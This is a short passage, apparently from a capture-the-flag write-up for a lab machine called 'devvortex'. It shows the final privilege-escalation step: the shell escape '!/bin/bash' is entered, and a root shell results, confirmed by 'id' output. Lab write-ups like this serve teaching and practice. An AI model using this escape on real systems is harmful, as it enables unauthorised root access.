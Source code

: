 ```
 ---------------------------------------------------------------------------
!/bin/bash
```
After hitting the return key, we now have a bash sesison as the user `root`:
```
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```
